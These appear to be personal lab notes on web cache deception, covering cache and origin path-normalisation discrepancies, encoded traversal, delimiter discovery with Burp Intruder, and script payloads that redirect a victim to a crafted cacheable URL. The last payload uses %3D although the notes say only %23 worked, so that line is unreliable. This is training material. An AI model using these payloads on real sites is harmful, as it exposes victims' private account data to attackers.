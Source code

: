 ```sh
# NOTE: You may not be able to determine if cache decodes .. and decodes the URL path without trying to exploit it.


############################## Exploiting normalization by the origin server
If origin server resolves encoded .. but the cache does not --> /<static-directory-prefix>/..%2f<dynamic-path>
For example, consider the payload /assets/..%2fprofile:
    The cache interprets the path as: /assets/..%2fprofile
    The origin server interprets the path as: /profile
The origin server returns the dynamic profile information, which is stored in the cache.     
# EXAMPLE: Exploiting origin server normalization for web cache deception
/aaa/..%2fmy-account -> normalized by the origin server
- Find potential static dirs (HTTP history filter)
/resources/
- /resources/..%2fjs/tracking.js -> cached but 404 error
- /resources/..%2fmy-account -> cached and interpreted as /my-account
# Make sure to add an arbitrary parameter as a cache buster (?wcd) so the user does not visit your cached response
<script>document.location="https://0aa3001704d985198074678e001a000d.web-security-academy.net/resources/..%2fmy-account?wcd"</script>


########################### Exploiting normalization by the cache server
If cache server resolves encoded .. but the origin server does not -> try to exploit discrepancy w/ this payload:
/<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>
# NOTE: When exploiting normalization by the cache server, encode all chars in the path traversal sequence. 
# Using encoded chars characters helps avoid unexpected behavior when using delimiters.
In this situation, path traversal alone is not sufficient for an exploit -> /profile%2f%2e%2e%2fstatic
    The cache interprets the path as: /static
    The origin server interprets the path as: /profile%2f%2e%2e%2fstatic
The origin server is likely to return an error message instead of profile information. 

To exploit this discrepancy, you will need to also identify a delimiter that is used by the origin server 
but not the cache. Test possible delimiters by adding them to the payload after the dynamic path:
    If the origin server uses a delimiter, it will truncate the URL path and return the dynamic information.
    If the cache does not use the delimiter, it will resolve the path and cache the response.
For example, consider the payload /profile;%2f%2e%2e%2fstatic. The origin server uses ; as a delimiter:
    The cache interprets the path as: /static
    The origin server interprets the path as: /profile
The origin server returns the dynamic profile information, which is stored in the cache.

# EXAMPLE: Exploiting cache server normalization for web cache deception
- Identify dynamic profile information -> GET /my-account
- Identify static directory prefix which is cached -> /resources
- To exploit discrepancy for /my-accountDELIMITER%2f%2e%2e%2fresources we need to find the delimiter
- Intruder > set delimiter payload > find that almost any of the encoded delimiters work %23 %24 %25 ... %3D
- But in reality, only %23 seems to provide 200 OK with X-Cache: miss and then X-Cache: hit after resending it.
- Delimiter %23 -> origin server returns /my-account which is stored in the cache.
- Make sure to add an arbitrary parameter as a cache buster:
<script>document.location="https://0a9300f6038359b28226dde800f10022.web-security-academy.net/my-account%3D%2f%2e%2e%2fresources?wcd"</script>
```
{% endcode %}